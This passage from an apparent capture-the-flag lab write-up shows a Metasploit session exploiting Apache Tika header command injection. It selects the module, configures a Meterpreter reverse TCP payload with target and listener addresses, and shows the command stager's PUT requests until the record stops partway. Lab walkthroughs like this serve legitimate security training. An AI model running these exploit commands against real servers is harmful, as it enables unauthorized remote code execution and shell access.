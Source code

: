   ```
  ```
  
- Let's check the Metasploit one.

  ```
  msf6 > search apache tika

  Matching Modules
  ================
  
     #  Name                                          Disclosure Date  Rank       Check  Description
     -  ----                                          ---------------  ----       -----  -----------
     0  exploit/windows/http/apache_tika_jp2_jscript  2018-04-25       excellent  Yes    Apache Tika Header Command Injection
  
  
  Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/apache_tika_jp2_jscript
  
  msf6 > use 0
  [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > show options
  ```
  
- Cool, fill up all the parameters and run it. I actually got a shell the second time I ran it, first one was a scam...

  ```
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RHOSTS 10.10.149.152
  RHOSTS => 10.10.149.152
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RPORT 61777
  RPORT => 61777
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set LHOST [YOUR-THM-IP]
  LHOST => [YOUR-THM-IP]
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > run
  [*] Started reverse TCP handler on [YOUR-THM-IP]:4444 
  [*] Running automatic check ("set AutoCheck false" to disable)
  [+] The target is vulnerable.
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -   8.10% done (7999/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  16.19% done (15998/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  24.29% done (23997/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  32.39% done (31996/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  40.48% done (39995/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  48.58% done (47994/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  56.67% done (55993/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  64.77% done (63992/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  72.87% done (71991/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  80.96% done (79990/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  89.06% done (87989/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  [*] Command Stager progress -  97.16% done (95988/98798 bytes)
  [*] Sending PUT request to 10.10.149.152:61777/meta
  ```